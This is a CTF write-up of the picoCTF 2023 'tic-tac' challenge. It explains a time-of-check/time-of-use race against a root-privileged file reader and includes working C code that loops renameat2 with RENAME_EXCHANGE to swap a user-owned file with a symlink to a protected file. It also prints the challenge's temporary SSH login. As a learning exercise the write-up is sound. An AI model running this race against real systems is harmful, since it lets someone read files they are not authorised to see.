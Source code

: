 ```yaml
---
title: Tic Tac picoCTF 2023
published: Apr 1, 2023
language: English
---
```


# tic-tac

**200 points**

AUTHOR: JUNIAS BONOU

Description
Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.
ssh to saturn.picoctf.net:50591, and run the binary named "txtreader" once connected. Login as ctf-player with the password, d8819d45

_Note:_ This challenge launches an instance on demand.

---

```cpp
#include <stdio.h>
#include<unistd.h>
#include <string.h>

int main(int argc, char * argv[]){
  unlink(argv[1]);
  symlink("/home/ctf-player/flag.txt",argv[1]);
}
```

But this is just **NOT FAST ENOUGH APPERANTLY**

Thank god `LiveOverflow` exists because after scraping the web with the utmost of `sus` google searches that probably put me on a list I found his video, directly solving this question [https://www.youtube.com/watch?v=5g137gsB9Wk&ab_channel=LiveOverflow](https://www.youtube.com/watch?v=5g137gsB9Wk&ab_channel=LiveOverflow) (you could skip this writeup and watch his video).

My explanation:

We want to create race conditions, such that the command execution would be like so:

```
--> Be a root file
--> Get checked by the programs if:
        // Check the file's owner.
        if (statbuf.st_uid != getuid()) {
            std::cerr << "Error: you don't own this file" << std::endl;
            return 1;
        }
--> Become readable with symbolic link
--> Get opened and read by the program:
        // Read the contents of the file.
        if (file.is_open()) {
            std::string line;
            while (getline(file, line)) {
            std::cout << line << std::endl;
            }
        } else {
            std::cerr << "Error: Could not open file" << std::endl;
            return 1;
        }
```

Instead of the code I showed above, there is a faster built in way in linux that this hidden from the internet does:

```cpp
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

// source https://github.com/sroettger/35c3ctf_chals/blob/master/logrotate/exploit/rename.c
int main(int argc, char *argv[]) {
  while (1) {
    syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
  }
  return 0;
}
```

Running this script on two files, one with symbolic link to the flag and another user-made file tricks the reader program when it tried to read the symbolic-link file to print out the flag if you're lucky (just a few reruns needed).

And so:

> picoCTF{your flag}
